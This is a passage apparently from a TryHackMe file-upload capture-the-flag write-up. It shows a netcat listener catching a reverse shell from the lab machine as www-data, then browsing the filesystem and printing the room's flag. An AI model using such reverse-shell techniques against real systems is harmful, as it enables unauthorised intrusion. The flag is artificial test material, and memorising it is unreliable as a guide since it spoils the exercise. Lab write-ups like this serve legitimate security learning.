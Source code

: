 ![alt text](image-9.png#center)

<br>

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvp 443
listening on [any] 443 ...
connect to [10.6.67.243] from overwrite.uploadvulns.thm [10.10.41.54] 54590
Linux a73553061b26 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 04:52:35 up  4:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cd /var/www
$ ls
flag.txt
html
$ cat flag.txt
THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}
```
